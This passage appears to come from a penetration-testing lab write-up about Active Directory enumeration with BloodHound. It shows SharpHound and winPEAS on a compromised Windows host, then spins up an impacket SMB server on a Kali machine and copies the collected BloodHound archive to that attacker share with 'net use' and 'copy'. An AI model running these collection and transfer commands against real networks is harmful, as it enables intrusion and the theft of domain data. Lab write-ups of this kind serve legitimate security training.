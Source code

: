 ```powershell
d-r---         9/29/2022   1:49 AM                Saved Games                                                          
d-r---         9/29/2022   1:50 AM                Searches                                                             
d-r---         9/29/2022   4:30 AM                Videos                                                               
-a----        10/10/2022   7:25 AM          11995 20221010072521_BloodHound.zip                                     
-a----        10/10/2022   7:23 AM        1318097 SharpHound.ps1                                                       
-a----        10/10/2022   5:02 AM        1936384 winPEAS.exe                                                          
-a----        10/10/2022   7:25 AM           8703 Zjc5OGNlNTktMzQ0Ni00YThkLWEzZjEtNWNhZGJlNzdmODZl.bin 
```
{% endcode %}

Starting an SMB server on our kali device to transfer the file:

{% code overflow="wrap" %}
```bash
kali@kali:~/Downloads$ sudo impacket-smbserver test . -smb2support -username test -password test
```
{% endcode %}

Copying the .zip over:

{% code overflow="wrap" %}
```powershell
PS C:\Users\marcus> net use m: \\192.168.119.5\test /user:test test
The command completed successfully.

PS C:\Users\marcus> copy 20221010072521_BloodHound.zip m:\
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Upload Zip Archive to BloodHound</p></figcaption></figure>
